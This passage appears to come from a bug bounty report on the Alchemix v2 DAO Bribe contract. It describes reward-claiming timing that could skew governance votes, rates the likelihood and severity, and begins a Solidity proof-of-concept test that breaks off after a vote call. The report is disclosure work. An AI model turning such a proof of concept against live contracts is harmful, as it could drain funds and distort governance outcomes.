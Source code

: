 ```solidity
        }

        return reward;
    }
```

## Impact Details

## IMPACT:

- Potential impact in scope: Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results
- Alternative impact in scope: Contract fails to deliver promised returns, but doesn't lose value

Likelihood: low
  -- probably not easy to carry out, would need to use automated "attack" contract and get the timing precise down to the second...

Impact: medium - high 
  -- malicious user/voter could leverage this to manipulate governance vote outcomes due to his unfair advantage in terms of collecting rewards...
  -- contract "loses" reward funds unexpectedly and under invalid conditions

Severity: low - medium

## References

https://github.com/alchemix-finance/alchemix-v2-dao/blob/9e14da88d8db05794623d8ab5f449451a10c15ac/src/Bribe.sol#L229

        
## Proof of concept
## Proof of Concept

## PoC:

Highly modified test function that I used:
```solidity
    function testBugBribeClaiming() public {
        // ------------------- Start first epoch i

        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        address bribeAddress = voter.bribes(address(sushiGauge));

        // Add BAL bribes to sushiGauge
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        // in epoch i, admin votes
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

```